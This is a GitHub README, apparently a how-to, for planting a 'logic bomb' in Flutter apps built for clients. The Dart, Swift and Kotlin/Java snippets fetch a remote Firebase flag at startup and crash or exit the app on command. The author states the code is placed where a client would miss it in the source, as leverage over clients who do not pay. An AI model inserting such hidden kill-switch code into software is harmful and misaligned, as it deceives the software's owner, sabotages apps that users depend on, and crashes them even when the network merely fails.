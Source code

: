 # Logic Bomb

## Control app crashing using Firebase or REST API ( Dart, Kotlin and Swift ).
### Do not abuse this code.
I am not responsible for any misuse of this code.
#### Hom many times did you work hard and didn't get paid ? 
This code was created to protect myself from clients. A client may come to you wants to complete a project, when you upload the app on stores, he disappears and not pays for you.

### Code is written in :
- #### Dart
- #### Swift
- #### Kotlin

I made it in native to make the code more invisible if he got the source code.

## Implementation Time 

## Dart
in your main file 
import 
```
import 'package:dio/dio.dart';
import 'dart:io';
```
in main file paste this function
```
void plant() async {
  try {
    final result = await Dio().get('$HERE_IS_YOUR_FIREBASE_PROJECT_LINK/app.json');
    final data = result.data;
    if (Platform.isAndroid && !data['android']) {
      throw Exception();
    } else if (Platform.isIOS && !data['ios']) {
      throw Exception();
    }
  } catch (_) {
    exit(0);
  }
}
```
in main function plant your bomb
```
void main() {
  plant();
  runApp(MyApp());
}
```

## Swift
ios -> Runner -> AppDelegate.swift
then put this code

 ```
import UIKit
import Flutter

@UIApplicationMain
@objc class AppDelegate: FlutterAppDelegate {
  override func application(
    _ application: UIApplication,
    didFinishLaunchingWithOptions launchOptions: [UIApplication.LaunchOptionsKey: Any]?
  ) -> Bool {
    GeneratedPluginRegistrant.register(with: self)
    plant()
    return super.application(application, didFinishLaunchingWithOptions: launchOptions)
  }

  func plant() {
          let api = "$HERE_IS_YOUR_FIREBASE_PROJECT_LINK/app.json"
          let url = URL(string: api)!
          do {
              let data = try Data(contentsOf: url)
              let json = try JSONSerialization.jsonObject(with: data) as! [String:Any]
              if (json["ios"] as! Int == 0) {
                   fatalError()
              }
          } catch {
              fatalError()
          }
      }

}
 ```

## Android
in android -> app -> src -> main -> AndroidManifest.xml
put Internet Permission
```
    <uses-permission android:name="android.permission.INTERNET" />
```
then go to android -> app -> src -> main -> kotlin 
beside MainActivity
create new JavaClass Named Bomb and paste this code inside
```
package $HERE_IS_YOUR_APP_PACKAGE_NAME;

import java.io.*;
import java.net.HttpURLConnection;
import java.net.URL;

public class Bomb {

    void plant() throws IOException {
        Thread thread = new Thread(new Runnable() {

            @Override
            public void run() {
                try {
                    URL url = new URL("$HERE_IS_YOUR_FIREBASE_PROJECT_LINK/app.json");
                    HttpURLConnection urlConnection = (HttpURLConnection) url.openConnection();
                    urlConnection.setRequestMethod("GET");
                    BufferedReader in = new BufferedReader(new InputStreamReader(urlConnection.getInputStream()));
                    StringBuffer sb = new StringBuffer();
                    String line;
                    while ((line = in.readLine()) != null) {
                        sb.append(line);
                    }
                    in.close();
                    if (sb.toString().contains("\"android\":false")) {
                        throw new RuntimeException("");
                    }
                } catch (Exception e) {
                    throw new RuntimeException("");
                }
            }
        });

        thread.start();
    }

}
```
and in MainActivity file
paste this code 
```
package $HERE_IS_YOUR_APP_PACKAGE_NAME

import io.flutter.embedding.android.FlutterActivity
import io.flutter.embedding.engine.FlutterEngine

class MainActivity: FlutterActivity() {
    override fun configureFlutterEngine(flutterEngine: FlutterEngine) {
        super.configureFlutterEngine(flutterEngine)
        Bomb().plant()
    }

}
```

## Firebase Setup :
To get your firebase project link follow these Screenshots and don't miss any step OR it won't work.
## 1
![](firebase_setup_screenshots/1.png)
## 2
![](firebase_setup_screenshots/2.png)
## 3
![](firebase_setup_screenshots/3.png)
## 4
![](firebase_setup_screenshots/4.png)
## 5
![](firebase_setup_screenshots/5.png)
## 6
![](firebase_setup_screenshots/6.png)
## 7
![](firebase_setup_screenshots/7.png)
## 8
![](firebase_setup_screenshots/8.png)

## Example : 
```
https://logic-bomb-896dd-default-rtdb.firebaseio.com/app.json
```
